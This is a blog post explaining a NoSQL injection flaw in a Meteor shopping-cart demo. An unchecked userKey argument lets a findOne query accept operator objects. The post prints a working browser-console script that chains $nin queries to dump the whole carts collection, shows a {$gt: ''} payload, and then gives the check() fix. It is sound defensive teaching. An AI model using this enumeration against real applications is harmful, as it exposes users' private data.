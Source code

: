 ```yaml
---
layout: post
title:  "Exploiting findOne to Aggregate Collection Data"
titleParts: ["Exploiting findOne", "to Aggregate Collection Data"]
date:   2015-07-21
tags: ["security"]
---
```


After watching [Rob Conery's](http://rob.conery.io/) awesome [series of screencasts](http://www.pluralsight.com/courses/discussion/meteorjs-web-application) detailing how to build an eCommerce application using [Meteor](https://www.meteor.com/), I was excited to dig into his code. Along with [finding a few other security vulnerabilities](https://github.com/robconery/meteor-shop/pull/1), I had fun playing with an interesting way of exploiting a <code class="language-javascript">findOne</code> query to aggregate data from a Mongo collection.

To get started, take a look at this <code class="language-javascript">getCart</code> method defined in [shopping_cart.js:30-32](https://github.com/robconery/meteor-shop/blob/d667a93ba3a116f1d65534b384099bc9e8230e80/lib/shopping_cart.js#L30-L32):

<pre class="language-javascript"><code class="language-javascript">getCart : function(userKey){
  return Carts.getCart(userKey);
}
</code></pre>

And the corresponding <code class="language-javascript">Carts.getCart</code> method in [carts.js](https://github.com/robconery/meteor-shop/blob/d667a93ba3a116f1d65534b384099bc9e8230e80/lib/collections/carts.js#L3-L25):

<pre class="language-javascript"><code class="language-javascript">Carts.getCart = function(userKey){
  var cart = Carts.findOne({userKey : userKey});
  ...
  return cart;
};
</code></pre>

The first thing you'll notice (I hope) is that the <code class="language-javascript">userKey</code> argument isn't being checked. Your horror may be tempered, though, when you notice that it's being passed into a <code class="language-javascript">findOne</code> query instead of a <code class="language-javascript">find</code>.

What's the worst thing a hacker could do? Sure, they might get a single random Cart by passing in a query like <code class="language-javascript">{$gt: ''}</code>, but it's not like they can get at our whole collection, right?

... Right?!

<hr/>

Well, it turns out you can easily pull down all data from a collection using a <code class="language-javascript">findOne</code> query. Take a look at some code a malicious user could run in their browser's console to do just that:

<pre class="language-javascript"><code class="language-javascript">var carts = [];
function getCartAndSave(userKeys) {
    Meteor.call('getCart', {$nin: userKeys}, function(e, r) {
        if (e || !r || !r._id) {
            return;
        }
        carts.push(r);
        userKeys.push(r.userKey);
        getCartAndSave(userKeys);
    });
}
getCartAndSave(['']);
</code></pre>

And just like that, the entire <code class="language-javascript">carts</code> collection has been pulled down to the client. Let's dig into the code to see what's going on.

The key here is the <code class="language-javascript">$nin</code> [query operator](http://docs.mongodb.org/manual/reference/operator/query/nin/). We begin by calling <code class="language-javascript">getCart</code> and asking for a Cart who's <code class="language-javascript">userKey</code> is not in (<code class="language-javascript">$nin</code>) the array <code class="language-javascript">['']</code>. This will return a random Cart. We push this cart's <code class="language-javascript">userKey</code> onto the array and ask for a Cart who's <code class="language-javascript">userKey</code> is not in that array. This will return another random Cart from the collection that we haven't yet seen. We repeat this process until there are no more Carts to find, and we've aggregated all of the Carts on the client.

Now Mr. Malicious User can take his time perusing your potentially sensitive data.

<hr/>

Like most Meteor security issues, the fix for this is to [check](http://docs.meteor.com/#/full/check) your user-provided arguments:

<pre class="language-javascript"><code class="language-javascript">getCart : function(userKey){
  check(userKey, String);
  return Carts.getCart(userKey);
}
</code></pre>

Now, a malicious user can't pass an object into the <code class="language-javascript">getCart</code> method. They may only pass a String, and will only be able to find a Cart if they know its <code class="language-javascript">userKey</code>.

Never allow users to pass arbitrary data into your queries!
